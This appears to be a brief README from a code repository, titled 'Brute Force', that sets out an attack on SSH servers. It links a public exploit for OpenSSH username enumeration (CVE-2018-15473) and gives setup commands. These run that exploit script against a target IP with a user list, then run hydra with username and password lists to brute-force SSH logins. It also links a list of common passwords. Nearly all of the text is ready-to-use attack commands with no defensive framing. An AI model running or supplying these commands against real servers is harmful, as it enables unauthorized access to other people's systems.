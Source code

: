 # Brute Force
Enumeration CVE 2018-15473

Bug OpenSSH 2.3

https://www.exploit-db.com/exploits/45233

Setup :
---
```
python 45233.py --userList user.txt [ip target] --outputFile hasil.txt
hydra -l [username] -p password.txt [ip target] ssh
hydra -L user.txt -P password.txt [ip target] ssh

https://nordpass.com/most-common-password-list/
```
